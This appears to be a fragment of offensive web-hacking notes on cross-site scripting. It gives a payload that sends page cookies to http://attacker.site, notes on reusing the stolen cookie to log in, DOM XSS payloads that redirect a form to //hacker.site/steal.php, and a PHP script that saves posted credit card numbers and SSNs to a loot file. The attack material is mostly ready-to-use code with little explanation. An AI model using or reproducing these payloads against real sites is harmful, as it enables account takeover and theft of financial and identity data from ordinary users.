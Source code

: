 Crafted a Payload:
```
<script> var i = new Image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>
```

> So, each time the user loads this page, his cookies will be sent to our script and we will be able to read them.

- Just copy the stolen cookie to our browser and we can login with the user credentials


## DOM XSS
```
"><img src="aaa" onerror="alert(document.domain)">             
"><svg/onload="alert(document.domain)">          
```

Go to web console in the browser:
```
document.forms
document.forms[0]
document.forms[1]
document.forms[1].action="test.html"
```

// we changed the result of the click button to a page that does not exist
// now we can point to a page that we own

```
 "><svg/onload="document.forms[1].action='//hacker.site/steal.php'">             "
```

steal.php:
```

<?php
if (isset($_POST['cc']))
{
	$LOOT="loot.txt";
	$ccData=$_POST['cc'] . '|||' . $_POST['ssn'] . "\n";
	$fh = fopen($LOOT, 'a');
	fwrite($fh, $ccData);
	fclose($fh);
	echo "Thanks for your credit card information" . $_POST['name'] . "!!!";
}
?>

```

JS

alert.js:
```
alert('This is hosted on hacker.site')
```
